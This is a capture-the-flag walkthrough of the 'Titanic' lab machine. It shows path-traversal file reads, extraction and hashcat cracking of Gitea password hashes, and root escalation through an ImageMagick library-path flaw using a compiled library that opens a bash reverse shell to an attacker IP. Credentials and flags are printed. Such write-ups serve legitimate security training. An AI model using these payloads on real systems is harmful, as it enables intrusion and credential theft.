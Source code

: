 Let's scan the IP address
```bash
sudo nmap -v -sC -sV 10.10.11.55
```

![image](images/2025-03-06_16-08.png)

Let's go to the site

![image](images/2025-03-06_16-13.png)

Let's check for directories
```bash
gobuster dir --wordlist=/usr/share/wordlists/rockyou.txt -u http://titanic.htb/
```

![image](images/2025-03-06_16-05.png)

Directory `/download` was found. Let's go to it
```URL
http://http://titanic.htb/download
```

![image](images/2025-03-06_16-15.png)

Error `{"error":"Ticket parameter is required"}`. This means that a ticket must be passed in the `URL`. Let's try to pass ticket `123`
```URL
http://titanic.htb/download?ticket=123
```

![image](images/2025-03-06_16-16.png)

Ticket not found. Most likely, the ticket is a file that the site allows you to download. Let's try to exploit `path traversal`. Download file `/etc/passwd`
```URL
//http://titanic.htb/download?ticket=../../../../etc/passwd
```

![image](images/2025-03-06_16-18.png)

![image](images/2025-03-06_16-19.png)

The vulnerability worked. Here at least the users `developer` and `root` are interesting
Let's try to get into the home directory of `developer` and find the flag `user.txt`
```URL
http://titanic.htb/download?ticket=../../../../home/developer/user.txt
```

![image](images/2025-03-06_16-24.png)

The first flag is
```flag
00ac3cda319b165b9a529d42af6c17f9
```
If there is `developer`, then most likely there is a subdomain `dev`. Let's check it out

![image](images/2025-03-06_17-12.png)

Let's try adding this subdomain to `/etc/hosts`

![image](images/2025-03-06_17-14.png)

![image](images/2025-03-06_17-11.png)

Now we have access to the `dev` subdomain.
Press the `Explore` button.

![image](images/20250307191004.png)

There are 2 repositories here: `developer/docker-config` and `developer/flask-app`. Let's go to the first

![image](images/20250307191039.png)

The `mysql` folder is interesting here. It contains `docker-compose.yml`, which contains the address of the database and its password

![image](images/20250307191149.png)

```Adress
127.0.0.1:3306:3306
```
```Password
MySQLP@$$w0rd!
```
Now let's open the second repository

![image](images/20250307191654.png)

We see that `gitea` runs in a `Docker` container, which saves everything to the `/home/developer/gitea/data` directory.
`gitea` most likely has its own database. Let's try to find it in the directory `/home/developer/gitea/data/gitea/gitea.db`
```URL
http://titanic.htb/download?ticket=../../..//home/developer/gitea/data/gitea/gitea.db
```
The file `gitea.db` has been downloaded. See what's in it
```bash
sqlite3 gitea.db
```

![image](images/20250307211038.png)

There is a table `user`. Let's see what this table consists of
```sqlite
.schema user
```

![image](images/20250307211336.png)

The columns `lower_name`, `passwd` and `salt` are interesting here. Let's get them out
```sqlite
select lower_name, passwd, salt from user;
```

![image](images/20250307211556.png)

```hash
administrator|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960 d459c08d2dfc063b2406ac9207c980c47c5d017136|2d149e5fbd1b20cf31db3e3c6a28f c9b
```
```hash
developer|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|8bf3e3452b78544f8bee9400d6936d34
```
`hashcat` cannot break such a hard hash directly. So let's convert these hashes to `SHA-256`. I'll use [gitea2hashcat.py](https://github.com/unix-ninja/hashcat/blob/master/tools/gitea2hashcat.py)
Developer:
```bash
python3 gitea2hashcat.py "e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8e fc5dbef30bf1682619263444ea594cfb56|8bf3e3452b78544f8bee9400d6936d34"
```
```bash
echo 'sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=' > sha_developer.txt
```
```bash
hashcat -m 10900 sha_developer.txt /usr/share/wordlists/rockyou.txt
```

![image](images/20250307214100.png)

```Password
25282528
```
Administrator:
```bash
python3 gitea2hashcat.py "cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d 2dfc063b2406ac9207c980c47c5d017136|2d149e5fbd1b20cf31db3e3c6a28fc9b"
```
```bash
echo 'sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=' > sha_administrator.txt
```
```bash
hashcat -m 10900 sha_administrator.txt /usr/share/wordlists/rockyou.txt
```
`hashcat` couldn't break the hash of `administrator`, but it did break `developer`. Let's connect to it via `SSH`

![image](images/20250307214347.png)

Let's do some tunneling
```bash
ssh -L 3000:localhost:3000 developer@titanic.htb
```
After that, `Gitea` is available on our machine at `http://localhost:3000`.
After digging around in the file system, I found an `identify_images.sh` bash script in `/opt/scripts` that works with `ImageMagick 7.1.1-35` and runs as `root`. Most likely, there is an exploit for it.

![image](images/20250308160908.png)

I found information about this [exploit](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8). We see that `ImageMagick 7.1.1-35` is vulnerable due to incorrectly configured `MAGICK_CONFIGURE_PATH` and `LD_LIBRARY_PATH` environment variables and due to paths with double colons `::`, which forces `ImageMagick` to look for files in the **current working directory**.
First, compile the malicious library with built-in `reverse shell`
```bash
gcc -x c -shared -fPIC -o libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
system("bash -c 'bash -i >& /dev/tcp/10.10.14.130/4444 0>&1'");
exit(0);
}
EOF
```
where `__attribute__((constructor))` — the `init()` function will be executed **automatically when the library is loaded**; - `system()` — runs the command for the `reverse shell`.

![image](images/20250308161950.png)

Now run `nc` listening on port `4444`
```bash
sudo nc -lvnp 4444
```
Now run the script `identify_images.sh` and go to the terminal with `nc`

![image](images/20250308162105.png)


![image](images/20250308162138.png)

```flag
8458fb76e993d949c7e1f3255c2fcf70
```
## How it works
The script `identify_images.sh` runs `magick identify` in directory `/opt/app/static/assets/images`.
Due to vulnerability:
- `LD_LIBRARY_PATH` contains **empty path** (current directory).
- ImageMagick searches for libraries (e.g. `libxcb.so.1`) **in the current directory**.
When `magick identify` tries to load the `libxcb.so.1` library, it finds a **malicious file** instead of a system one.

The `init()` function is executed with **the privileges of the user who launched the script** (`root`).
